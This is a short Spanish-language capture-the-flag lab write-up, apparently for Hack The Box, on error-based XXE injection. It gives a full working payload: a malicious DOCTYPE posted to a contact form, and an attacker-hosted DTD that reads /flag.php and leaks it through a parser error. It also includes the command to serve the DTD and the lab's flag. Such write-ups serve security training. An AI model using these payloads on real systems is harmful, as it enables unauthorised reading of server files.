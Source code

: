 # Laboratorio: Error Based 🌋

1. Una vez que estemos en la página web, lo que tenemos que hacer es interceptar la solicitud de **`Contact Form`**
---
2. Ahora realizaremos una solicitud por **`POST`** a la ruta `/error/submitDetails.php`, y con la data
```xml
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://[IP]:[Port]/xxe.dtd">
  %remote;
  %error;
]>
```
---
3. Antes de enviar la solicitud, tenemos que hostear una entidad **`xxe.dtd`** con el siguiente contenido

```xml
<!ENTITY % file SYSTEM "file:///flag.php">
<!ENTITY % error "<!ENTITY content SYSTEM '%nothig;/%file;'>">
```

* Leeremos el archivo **`/flag.php`**
* Ahora, usamos **Python** para hostear esta entidad: `python3 -m http.server [Port]`
---

4. Enviamos la solicitud y veremos la **`flag`**
`HTB{3rr0r5_c4n_l34k_d474}`